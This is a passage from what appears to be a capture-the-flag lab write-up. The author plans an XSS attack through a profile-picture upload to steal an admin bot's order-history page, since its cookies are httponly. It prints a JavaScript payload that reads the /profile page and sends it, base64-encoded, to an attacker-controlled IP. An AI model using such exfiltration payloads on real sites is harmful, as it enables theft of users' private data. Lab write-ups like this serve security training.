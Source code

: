 After waiting for a bit, we would eventually get a callback using this method:

<figure><img src="../../.gitbook/assets/image (460) (2).png" alt=""><figcaption></figcaption></figure>

There was mention of 'old orders' being used, so I wanted to see if we could steal page contents via XSS. The stealing of cookies won't work in this case since the `Set-Cookie` header had the `httponly` value, so stealing pages is the only other method.

To do this, we can create a Flask server to redirect the bot to other pages. The `/profile` endpoint had an Order History record at the bottom:

<figure><img src="../../.gitbook/assets/image (530) (2).png" alt=""><figcaption></figcaption></figure>

So the exploit path is to redirect the bot to their own `/profile` directory and view their old orders via injecting Javascript code into our profile picture.

I tried it with this payload:

```javascript
var url = "http://10.129.90.108/profile";
var attacker = "http://10.10.14.34:8000/exfil";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

The above payload doesn't work, but we can at least confirm that page stealing is the way to go:

<figure><img src="../../.gitbook/assets/image (705) (1).png" alt=""><figcaption></figcaption></figure>
